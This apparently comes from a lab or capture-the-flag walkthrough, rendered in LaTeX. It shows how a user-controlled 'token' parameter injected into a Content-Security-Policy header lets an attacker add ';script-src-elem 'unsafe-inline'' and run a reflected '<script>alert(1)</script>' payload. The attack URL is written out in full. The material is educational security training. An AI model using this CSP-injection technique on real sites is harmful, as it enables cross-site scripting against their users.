 \documentclass{article}
\begin{document}
\begin{itemize}
\subsection{Step 2: Investigate the CSP}
\textbf{What we discover:}
\begin{itemize}
    \item Look at the HTTP response headers
    \item There's a \texttt{Content-Security-Policy} header
    \item It contains a \texttt{report-uri} directive with a \texttt{token} parameter
\end{itemize}

\textbf{Example of what the CSP might look like:}
\begin{lstlisting} [backgroundcolor=\color{gray!10}, frame=single]
Content-Security-Policy: default-src 'self'; script-src 'self';
 report-uri /csp-report?token=abc123
\end{lstlisting}

\subsection{Step 3: The Vulnerability}
\textbf{Key insight:} The \texttt{token} parameter value is included directly in the CSP header, and we can control it through the URL!

This means if we visit:
\begin{lstlisting} [backgroundcolor=\color{gray!10}, frame=single]
https://site.com?token=OUR_INJECTION
\end{lstlisting}

The CSP becomes:
\begin{lstlisting} [backgroundcolor=\color{gray!10}, frame=single]
Content-Security-Policy: ... report-uri /csp-report?token=OUR_INJECTION
\end{lstlisting}

\subsection{Step 4: Crafting the Exploit}
\textbf{The attack URL:}
\begin{lstlisting} [ frame=single]
https://site.com/?
search=<script>alert(1)</script>
&token=;script-src-elem 'unsafe-inline'
\end{lstlisting}

\textbf{Let's break this down:}

\textbf{Part 1: The search parameter}
\begin{itemize}
    \item \texttt{search=\%3Cscript\%3Ealert\%281\%29\%3C\%2Fscript\%3E}
    \item This is URL-encoded for: \texttt{<script>alert(1)</script>}
    \item This is our XSS payload that will execute
\end{itemize}


\end{itemize}
\end{document}
